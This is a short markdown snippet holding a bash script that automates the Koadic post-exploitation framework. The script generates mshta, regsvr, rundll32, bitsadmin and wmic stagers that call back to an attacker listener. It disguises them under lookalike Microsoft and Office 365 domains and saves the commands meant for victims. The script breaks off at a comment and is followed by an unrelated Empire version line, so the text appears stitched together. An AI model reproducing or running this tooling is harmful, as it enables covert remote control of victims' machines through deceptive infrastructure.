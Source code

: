 ### Koadic Automation Script

This script automates setting up Koadic and generating various stagers:

```bash
#!/bin/bash
# koadic_automation.sh - Automate Koadic stager generation and deployment

# Configuration
KOADIC_PATH="/opt/koadic"
STAGERS_DIR="koadic_stagers"
LHOST="192.168.1.100"
LPORT="8443"
HTTP_PORT="80"
DOMAINS=("update-microsoft.com" "cdn-windows.com" "office365-cdn.com")

# Create output directory
mkdir -p "$STAGERS_DIR"

# Function to generate a stager
generate_stager() {
    local STAGER_TYPE=$1
    local OUTPUT_FILE=$2
    local DOMAIN=$3
    
    echo "Generating $STAGER_TYPE stager with domain $DOMAIN..."
    
    # Create resource script for this stager
    cat > "/tmp/koadic_${STAGER_TYPE}.rc" << EOF
use stagers/js/${STAGER_TYPE}
set SRVHOST ${LHOST}
set SRVPORT ${LPORT}
set ENDPOINT ${STAGER_TYPE}
set DOMAIN ${DOMAIN}
set OUT ${OUTPUT_FILE}
run
exit
EOF
    
    # Run Koadic with the resource script
    cd "$KOADIC_PATH"
    python3 koadic.py -r "/tmp/koadic_${STAGER_TYPE}.rc" > "${OUTPUT_FILE}.log" 2>&1
    
    echo "Stager saved to $OUTPUT_FILE"
    # Extract the command to run on victim from the log file
    COMMAND=$(grep "Run the following" "${OUTPUT_FILE}.log" | cut -d ':' -f 2-)
    echo "Run command: $COMMAND" >> "${OUTPUT_FILE}.cmd"
}

# Generate all stagers for each domain
for DOMAIN in "${DOMAINS[@]}"; do
    # Create domain-specific directory
    DOMAIN_DIR="${STAGERS_DIR}/${DOMAIN}"
    mkdir -p "$DOMAIN_DIR"
    
    # Generate various stager types
    generate_stager "mshta" "${DOMAIN_DIR}/mshta_stager.hta" "$DOMAIN"
    generate_stager "regsvr" "${DOMAIN_DIR}/regsvr_stager.sct" "$DOMAIN"
    generate_stager "rundll32_js" "${DOMAIN_DIR}/rundll32_stager.js" "$DOMAIN"
    generate_stager "bitsadmin" "${DOMAIN_DIR}/bitsadmin_stager.txt" "$DOMAIN"
    generate_stager "wmic" "${DOMAIN_DIR}/wmic_stager.xsl" "$DOMAIN"
done

# Create Apache VirtualHosts for each domain
```

 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire